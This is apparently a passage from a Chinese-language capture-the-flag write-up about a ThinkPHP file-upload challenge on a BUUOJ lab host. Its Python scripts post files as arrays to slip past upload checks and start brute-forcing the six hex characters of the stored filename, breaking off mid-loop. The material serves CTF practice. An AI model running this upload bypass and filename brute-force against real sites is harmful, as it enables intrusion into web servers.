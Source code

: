 ![image-20220124212712918](README/image-20220124212712918.png)

```python
import requests
url = 'http://7bf59f19-55d2-4237-ba35-ccb808a150f1.node4.buuoj.cn:81/index.php/Home/Index/upload'
file1 = {'file': open('D://1.txt', 'r')}
file2 = {'file[]': open('D://1.txt', 'r')}  # upload()不传参时即是批量上传所以用[]
r = requests.post(url, files=file1)
print(r.text)
r = requests.post(url, files=file2)
print(r.text)
r = requests.post(url, files=file1)
print(r.text)
```

这里可以看到两个文件之间是有6位数的不同，接下来我们只要控制这六位数爆破文件名即可

```python

import time
import requests

# 获取正常上传后文件路径名
url = "http://7bf59f19-55d2-4237-ba35-ccb808a150f1.node4.buuoj.cn:81/index.php/home/index/upload"
file1 = {'file': open('D:\\1.txt', 'r')}
file2 = {'file[]': open('D:\\1.txt', 'r')}
file3 = {'file': open('D:\\1.txt', 'r')}
# r = requests.post(url, files=file1)
# print(r.text)
# r = requests.post(url, files=file2)
# print(r.text)
# r = requests.post(url, files=file3)
# print(r.text)

# 爆破
dir = 'abcdef0123456789'
for i in dir:
    for j in dir:
        for x in dir:
```